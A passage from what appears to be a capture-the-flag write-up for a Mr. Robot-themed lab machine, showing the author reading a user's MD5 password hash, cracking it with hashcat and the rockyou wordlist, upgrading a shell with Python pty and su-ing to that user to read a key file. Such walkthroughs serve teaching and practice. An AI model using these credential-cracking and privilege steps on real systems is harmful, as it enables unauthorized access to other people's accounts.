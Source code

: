 ```console
$ cd /home/robot
$ ls
key-2-of-3.txt
password.raw-md5
$ ls -al
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
$ 
```

We can use hashcat to try and crack the hash.

```console
$ hashcat -m0 -a0 ./hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt                       
hashcat (v6.1.1) starting...
...

c3fcd3d76192e4007dfb496cca67e13b:REDACTED

Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
...
```

## Becoming robot
It doesn't take long. We can't SSH in since the port is closed, so we'll have to `su` a new shell as that user. We can't do that until we upgrade our shell, and I like to use Python.

```console
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su -lc /bin/bash robot
su -lc /bin/bash robot
Password: 

bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
robot@linux:~$ 
```

### Second Key
Now we can read the file.

```console
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
REDACTED
robot@linux:~$ 
```
